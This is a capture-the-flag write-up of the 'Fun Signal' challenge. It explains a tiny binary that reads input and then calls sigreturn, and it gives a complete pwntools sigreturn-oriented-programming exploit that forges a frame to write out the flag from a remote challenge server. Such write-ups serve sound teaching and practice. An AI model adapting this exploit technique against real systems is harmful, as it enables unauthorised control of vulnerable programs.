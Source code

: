 # Fun Signal
#### wparks

We are given a standard pwnable setup of a binary and remote address and port.
Throwing the binary into hopper shows a very short program.

![Asm](img/hopper.png)

It makes two syscalls. The first reads information onto the stack, and the second
calls sigreturn. While building our own sigreturn frames looks like it could be
a little complex, pwntools takes care of this for us easily.

Now that we have arbitrary control, we need to figure out what to do. The provided
binary has a fake flag in the binary, so printing it out should suffice, using the
write syscall. Pwntools makes this really easy.

```python
from pwn import *

#r = remote("localhost", 2015)
r = remote("163.172.176.29", 9034)
frame = SigreturnFrame(arch='amd64')
frame.rax = 1 #syscall number
frame.rdi = 1 #syscall FD
frame.rsi = 0x0000000010000023 #buff addr
frame.rdx = 0x50 #length
frame.rip = 0x10000012 #syscall inst addr
frame.rsp = 0
exp = str(frame)
r.send(exp)
r.interactive()

```
